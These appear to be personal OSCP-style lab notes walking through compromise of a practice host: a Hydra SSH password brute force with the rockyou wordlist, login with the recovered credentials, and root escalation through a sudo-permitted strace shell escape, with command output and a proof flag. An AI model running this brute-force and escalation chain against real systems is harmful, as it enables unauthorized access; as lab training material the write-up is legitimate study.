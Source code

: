 
# brute force 

![[{7BC4111F-B95A-46ED-8782-CE680F5B60BB}.png]]

```
hydra -l lisa -P /usr/share/wordlists/rockyou.txt ssh://192.168.114.110 -t 4  -vV

[ATTEMPT] target 192.168.114.110 - login "lisa" - pass "peanut" - 163 of 14344399 [child 3] (0/0)
[22][ssh] host: 192.168.114.110   login: lisa   password: peanut
[STATUS] attack finished for 192.168.114.110 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-09 13:38:43


```

cred:
lisa
peanut

# ssh 

```
┌──(kali㉿kali)-[~/OSCP/Exam/192.168.114.110/PwnKit]
└─$ ssh lisa@192.168.114.110                                                         
lisa@192.168.114.110's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jun  9 05:41:23 PM UTC 2025

  System load:  0.03759765625     Processes:               215
  Usage of /:   56.8% of 9.75GB   Users logged in:         0
  Memory usage: 28%               IPv4 address for ens160: 192.168.114.110
  Swap usage:   0%


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

$ whoami
lisa
$ 

```
![[{C17668BA-C779-4C39-8113-5CBE070ECE9E}.png]]

proof 
bee0fce51a0ecf6ada8808f2a83624b2

![[{25699792-0DE7-4C85-9B5C-DC10B00EBD10}.png]]

# escalation

```
$ sudo -l
[sudo] password for lisa: 
Matching Defaults entries for lisa on oscp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User lisa may run the following commands on oscp:
    (root) /usr/bin/strace
    (root) /usr/bin/newgrp
$ 

```
https://gtfobins.github.io/gtfobins/strace/

```
## Shell[](https://gtfobins.github.io/gtfobins/strace/#shell)

It can be used to break out from restricted environments by spawning an interactive system shell.

- ```
    strace -o /dev/null /bin/sh
    ```
```


```

$ sudo strace -o /dev/null /bin/sh
# ls
evil-so.c  exploit.c  help.txtx  local.txt  makefile  MakeFile  Pwnkit.c
# whoami
root

```


![[{B7445D4D-763A-472E-BDE4-50C35A50BF03}.png]]
